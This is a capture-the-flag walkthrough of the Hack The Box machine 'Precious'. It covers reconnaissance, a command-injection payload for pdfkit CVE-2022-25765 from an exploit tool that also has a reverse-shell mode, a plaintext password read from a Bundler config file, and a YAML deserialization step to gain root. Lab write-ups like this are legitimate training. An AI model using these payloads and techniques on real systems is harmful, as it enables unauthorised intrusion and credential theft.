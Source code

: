 ```yaml
---
title: Precious HTB (English)
image: /assets/img/Anexos/Máquina%20Precious.png
description: Precious HTB [Difuculty easy]
categories: [CTF,HackTheBox]
tags: [hacking,easy]
---
```


## Introduction
 Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script. 

### Machine Description


- Name: Precious
- Goal: Get two flags
- Difficulty: easy
- Operating System: Linux
- link: [Active](https://app.hackthebox.com/machines/513)

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/Vulnlab/M%C3%A1quina%20Precious.pdf)




## Reconnaissance 

```shell
❯ sudo nmap 10.129.228.98 -sSCV --min-rate 5000 -p- --open -n -Pn -oN scan1.txt
Starting Nmap 7.97 ( https://nmap.org ) at 2025-09-16 21:44 +0200
Nmap scan report for 10.129.228.98
Host is up (8.0s latency).
Not shown: 61977 filtered tcp ports (no-response), 3556 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.27 seconds
```

Nmap reported us the ports `22` and `80`, so it appers the exploitation is via web. 

After adding the _precious.htb_ in _/etc/hosts_ file we can see this page that apparently converts a page to pdf:

![](/assets/img/Anexos/Máquina%20Precious-1.png)

Using `whatweb` we can scan the web fastly.
```shell
❯ whatweb http://precious.htb
http://precious.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.129.228.98], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```



![](/assets/img/Anexos/Máquina%20Precious-2.png)

![](/assets/img/Anexos/Máquina%20Precious-3.png)

Indeed, the page makes a request to a given page and generates a PDF from it.

At this point we can try SSRF o code execution, but first we can check metadata about the PDF file generated using `exiftool`:

```shell
❯ exiftool rpsvleim94ozi027l7skl8e2qep7aiyq.pdf
ExifTool Version Number         : 13.36
File Name                       : rpsvleim94ozi027l7skl8e2qep7aiyq.pdf
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2025:09:17 08:44:14+02:00
File Access Date/Time           : 2025:09:17 08:44:14+02:00
File Inode Change Date/Time     : 2025:09:17 08:44:14+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

In the creator field, we see a version, apparently is using the pdfkit library from ruby. So now we can search for a exploit by using `searchsploit`

```shell
❯ searchsploit pdfkit
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
pdfkit v0.8.7.2 - Command Injection                                                   | ruby/local/51293.py
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Explotation 

```shell
❯ python pdf_exploit.py
UNICORD Exploit for CVE-2022–25765 (pdfkit) - Command Injection

Usage:
  python3 exploit-CVE-2022–25765.py -c <command>
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port>
  python3 exploit-CVE-2022–25765.py -c <command> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -h

Options:
  -c    Custom command mode. Provide command to generate custom payload with.
  -s    Reverse shell mode. Provide local IP and port to generate reverse shell payload with.
  -w    URL of website running vulnerable pdfkit. (Optional)
  -p    POST parameter on website running vulnerable pdfkit. (Optional)
  -h    Show this help menu.
```

We can see that the payload generated is just injecting code in the url wrapping the code with -- _'_ -- :   
```shell
python pdf_exploit.py -c 'ping -c2 10.10.16.55'

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Custom Command Mode
PAYLOAD: http://%20`ping -c2 10.10.16.55`
WARNING: Wrap custom command in "quotes" if it has spaces.
EXPLOIT: Copy the payload above into a PDFKit.new().to_pdf Ruby function or any application running vulnerable pdfkit.
```


So we can try if that works in this context:
![](/assets/img/Anexos/Máquina%20Precious-4.png)

After confirming a succesfully code execution, the next step is get a rev shell: 

![](/assets/img/Anexos/Máquina%20Precious-5.png)

## Privilage Escalation

Apparently we have to elevate our privilage to _henry_ and the to _root_
```shell
ruby@precious:/var/www/pdfapp/config$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

_bundle_ directory use to usually store sensible data so we can quickly check it as we can confirm is storing _henry password_ 
```shell
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```


Once as henry, we can check if has capacities in sudores and indeed he has, he can execute a ruby script as root:
```shell
henry@precious:~$ sudo -l 
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

This script uses a danger function and a not-fullpath file in addition, so we can leverage via deserialization attack.


For that, I used this poc I found in this blog:
https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

![](/assets/img/Anexos/Máquina%20Precious-6.png)








